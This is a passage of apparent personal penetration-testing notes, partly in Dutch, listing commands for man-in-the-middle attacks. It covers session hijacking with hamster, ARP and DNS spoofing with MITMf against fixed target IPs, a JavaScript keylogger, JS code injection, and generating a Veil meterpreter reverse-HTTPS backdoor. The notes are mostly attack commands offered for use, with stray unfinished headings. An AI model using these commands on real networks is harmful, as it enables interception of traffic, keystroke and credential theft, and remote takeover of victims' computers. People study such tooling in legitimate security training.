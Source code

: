 `> hamster`

(to use this tool: go to settings of browser, advanced, network, connection settings
and change the port numer to 127.0.0.1 Port 1234 and navigate in browser to 127.0.0.1/1234)

### DNS SPOOFING

start the webserver

`> service apache2 start`

Adjust the file with the right ip settings [[[A]]]

`> leafpad /etc/mitmf/mitmf.conf`

Start spoofing

`> mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 -i eth0 --dns`

#### MITMF Screenshotter 

`> mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 -i eth0 --screen`

(screenshots located in /var/log/mitmf directory)

#### MITMF KEYLOGGER 

`> mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 -i eth0 --jskeylogger`

#### MITMF Code Injection 

`> mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 --inject --js-payload "alert('test!');" `

OR 

`> mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 --inject --js-file /root/alert.js`

(you need to make a .js file in the home directory)


# NEXPOSE SCANNING TOT HIER OPMAAK

## Generate Backdoor

--------- Veil Framework ----------
https://github.com/Veil-Framework/Veil
Hier downloaden
In de map /opt
'git clone https://github.com/Veil-Framework/Veil'
Navigeer naar /opt/Veil/setup
./setup.py

Run: ./opt/Veil/Veil.py
```
> list
> 1
> list
> go/meterpreter/rev_https
> options instellen
> generate
```
stored here: /usr/share/veil-output/compiled/rev_https_80801.exe

